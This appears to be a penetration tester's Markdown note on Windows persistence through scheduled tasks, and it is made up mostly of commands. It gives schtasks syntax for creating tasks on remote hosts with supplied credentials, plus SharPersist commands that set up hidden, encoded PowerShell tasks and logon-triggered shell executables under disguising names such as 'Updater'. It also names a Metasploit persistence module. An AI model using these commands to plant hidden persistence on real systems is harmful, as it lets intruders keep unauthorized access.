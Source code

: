 # Schtasks

## 01 - Command Prompt

### 2.1 - Help Menu

#### 2.1.1 - Create Task Syntax

```
C:\> schtasks /create /tn "<task_name>" /tr "<commands>" /sc <minute | hourly | daily | weekly | monthly | once | onstart | onlogon | onidle> <[/st HH:MM:SS | /st <MM/DD/YYYY>]> [/sd <MM/DD/YYYY>] [/it] [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]

/create => create a schedule task
/sc => type of schedule
/st => start time
/tn => task name
/tr => task run
/it => Make it interactive when the user is using his computer
/s => computer IP
/ru => specify the username: { [DOMAIN_name]\<username> | system }
/rp => specify the password
```

#### 2.1.2 - Run Task Syntax

```
C:\> schtasks /run /tn "<task_name>" [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]
```

#### 2.1.2 - Stop Task Syntax

```
C:\> schtasks /stop /tn "<task_name>" [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]
```

#### 2.1.3 - Delete Task Syntax

```
C:\> schtasks /delete /f /tn "<task_name>" [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]
```

#### 2.1.4 - Query Task Syntax

```
C:\> schtasks /query /f /tn "<task_name>" [/ru <DOMAIN>\<username>] [/rp <password>] [/s <target_IP>]
```

### 2.2 - Usage

```
C:\> net time

PS C:\> Get-Date

C:\> schtasks /query /tn "<task_name>" /fo List /v /s <IP>

C:\> schtasks /delete /tn "<task_name>" /tr "<commands>" /sc once /st <HH:mm> /s <IP> /ru [DOMAIN]\<username> /rp <password>

C:\> schtasks /create /tn "<task_name>" /tr "<commands>" /sc once /st <HH:mm> /s <IP> /ru system
```

## 02 - SharPersist

```
C:\> SharPersist.exe -t schtask -c "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64_encoded>" -n "Updater" -m add -o hourly

C:\> SharPersist.exe -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "Patch" -m add -o logon

C:\> SharPersist.exe -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "Patch" -m check

C:\> SharPersist.exe -t schtaskbackdoor -m list -o logon
```

## 03 - Metasploit

TODO: Fill this info

```
msf > use exploit/windows/local/s4u_persistence
```

---
## References

- [[Windows Post Exploitation Persistence References]]

- [Persistence Scheduled Tasks](https://pentestlab.blog/2019/11/04/persistence-scheduled-tasks/)

- [Cobalt Strike: Schtasks Persistence with Powershell one liners](https://www.cobaltstrike.com/blog/schtasks-persistence-with-powershell-one-liners/)